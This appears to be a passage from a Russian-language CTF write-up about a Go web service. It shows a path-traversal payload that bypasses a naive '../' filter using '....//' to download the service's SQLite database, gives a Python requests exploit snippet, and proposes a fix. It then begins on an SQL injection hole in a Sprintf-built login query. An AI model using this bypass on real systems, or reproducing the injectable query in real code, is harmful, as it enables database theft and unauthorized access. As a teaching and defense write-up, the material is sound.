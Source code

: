 ```
	imgID := strings.ReplaceAll(req, "../", "")
	imagePath := "static/sus/" + imgID + ext
	imageFile, err := os.Open(imagePath)
```
Дальше полученный imageFile пакуется в архив и передаётся пользователю. 
При легитимных запросах пользователю выдаётся картинка по пути service/static/sus/x.png, где x - ID подозреваемого. Однако вместо ID можно подать путь до БД, а расширение с дефолтного .png поменять на .db.
Нужный нам путь из папки /static/sus/: 
```
	/static/sus/../../MSPD2.db
```
Формируем пейлоад:
```
	{"ID":"../../MSPD2","ext":".db"}
```
Поскольку при формировании конечного пути происходит фильтрация последовательности символов "../":
```
	imgID := strings.ReplaceAll(req, "../", "")
```
Конечный пейлоад будет выглядеть так:
```
	{"ID":"....//....//MSPD2","ext":".db"}
```
Стучимся на нужный URL, передавая наш пейлоад:
```
	s = requests.Session()
	# сперва нужно авторизоваться
	req = s.post(url+"/authorize", hacker_creds)
	req = s.post(url+"/download_profile", data={"ID":"....//....//MSPD2","ext":".db"})
```
В скачавшемся архиве будет находиться файл БД, из которого можно будет легко вытащить флаги.

В качестве возможного фикса уязвимости можно заставить app_logic/handlers/download_profile.go выкидывать ошибку всегда, когда введенный пользователем ID нельзя конвертировать в int, а расширение всегда считать как .png:
```
	susID, e := strconv.Atoi(r.FormValue("ID"))
	ext := ".png" //ext := r.FormValue("ext")
	if e != nil {
		utils.DropError(w, r, err, http.StatusBadRequest) //susID = 0
		return
	}
```
# SQL injection
Взглянем на реализацию авторизации (app_logic/handlers/authorization.go):
```
func Authorize(w http.ResponseWriter, r *http.Request) {
	user := models.User{
		Username: r.FormValue("username"),
		Password: utils.HashPassword(r.FormValue("password")),
	}
	queryResult := db.DB.Select("id, username, password").First(&user, fmt.Sprintf("username = '%v' AND password = '%v'", user.Username, user.Password))
	if queryResult.Error != nil {
		http.Redirect(w, r, "/sign_in?err=wrong_user", http.StatusSeeOther)
		return
	}
```
Так делать совсем не надо:
```
	queryResult := db.DB.Select("id, username, password").First(&user, fmt.Sprintf("username = '%v' AND password = '%v'", user.Username, user.Password))
```